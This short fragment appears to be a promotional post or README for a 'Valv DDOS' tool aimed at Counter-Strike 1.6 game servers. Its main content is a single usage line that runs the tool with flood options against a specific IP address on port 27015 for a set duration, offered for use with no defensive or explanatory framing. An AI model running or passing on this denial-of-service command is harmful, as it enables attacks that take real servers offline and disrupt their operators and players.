 # Valv DDOS IS NOW IN TRIAL PHASE!
ThankYou!
./valv -U -T0 -T1 -T2 -T3 -h 213.238.173.32 -p 27015,27015 -t 1999 COUNTER STRİKE 1.6 DDOS
